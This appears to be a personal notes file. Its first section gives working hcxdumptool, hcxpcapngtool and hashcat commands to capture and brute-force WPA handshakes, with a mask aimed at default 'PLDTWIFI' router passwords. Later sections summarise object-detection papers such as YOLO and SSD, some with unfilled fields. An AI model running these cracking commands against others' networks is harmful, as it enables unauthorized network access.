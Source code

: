 = 2024年09月24日

== wifi (wpa-pbkdf2-pmkid+eapol)

Requirements:

* aircrack-ng
* hcxtools
* hcxdumptool
* hashcat

. ``sudo hcxdumptool -i wlp6s0f3u2 -w WIFIs.pcapng``
. ``hcxpcapngtool -o WIFIs.hc22000 WIFIs.pcapng``
. ``hashcat -m 22000 WIFIs.hc22000 -a 3 -1 '?d?l' 'PLDTIFI?1?1?1?1?1' -w 3``

Use ``hashcat -m 22000 WIFIs.hc22000 -a 3 -1 '?d?l' 'PLDTWIFI?1?1?1?1?1' -w 3 --show`` to show all cracked hashes.


== Disabling Monitor Mode

. ``ip link set wlo1 down``
. ``iw wlo1 set type managed``
. ``ip link set wlo1 up``

Check with ``iwconfig`` if Mode is set to **Managed**.

== nmcli

Connecting using another wifi adapter:: nmcli device wifi connect 'WLAN SSID' ifname wlo2 -a

== TL;DRs

https://www.cs.cmu.edu/~efros/courses/LBMV07/Papers/viola-cvpr-01.pdf[Rapid Object Detection using a Boosted Cascade of Simple Features]::
A *real-time* face detection algorithm that uses fewer number of features utilizing AdaBoost as the learning algorithm.

FPS::: 15 FPS
Accuracy::: ?
Strengths:::
. ?
Weaknesses:::
. ?

https://arxiv.org/abs/1506.02640[You Only Look Once: Unified, Real-Time Object Detection]::
A real-time generalize object detection algorithm.

FPS::: 45 FPS
Accuracy::: 63.4% mAP (Fast R-CNN + YOLO)
Strengths:::
. Faster than R-CNN and Deformable Parts Model
Weaknesses:::
. Lower Accuracy
. Struggles with small objects that appears in groups (like flock of birds)
. Main source of error is incorrect localizations

https://arxiv.org/abs/1512.02325[SSD: Single Shot MultiBox Detector]::
A convolutional neural network fast single-shot real-time object detection for multiple categories.

FPS::: 59
Accuracy::: 76.9% mAP (500x500)
Strengths:::
. Outperforms Faster R-CNN
. Faster than YOLOv1
. Higher accuracy
Weaknesses:::
. ?

https://arxiv.org/abs/1506.01497[Faster R-CNN: Towards Real-Time Object Detection with Region Proposal Networks]::
Real-tiem object detection networks using regional proposal network.

FPS::: 5
Accuracy::: 78.8% mAP
Strengths:::
. ?
Weaknesses:::
. ?

https://arxiv.org/abs/1605.06409[R-FCN: Object Detection via Region-based Fully Convolutional Network]::
Region-based, fully convolutional networks (R-FCN) for accurate and efficient object detection using Residual Net (ResNet-101) as backbone.

FPS::: 5
Accuracy::: 83.6% mAP (PASCAL VOC 2007 dataset), 82% mAP (PASCAL VOC 2012 dataset)
Strengths:::
. 2.5 to 20 times faster than Faster R-CNN
. Simpler, no need for iterative box regression
Weaknesses:::
. ?

https://arxiv.org/abs/1708.02002[Focal Loss for Dense Object Detection]::
Simple Dense Detector, RetinaNet, trained on focal loss matching one-stage detectors and surpassing two-stage detectors in accuracy.

FPS::: 5
Accuracy::: ?
Strengths:::
. ?
Weaknesses:::
. ?

https://arxiv.org/abs/1911.09070[EfficientDet: Scalable and Efficient Object Detection]::
Weighted bi-directional feature pyramid network and compound scaling method for object detection.

FPS::: ?
Accuracy::: 81.74% mIOU
Strengths:::
. 4 to 9 times smaller
. 13 to 49 times fewer FLOPs
Weaknesses:::
. ?
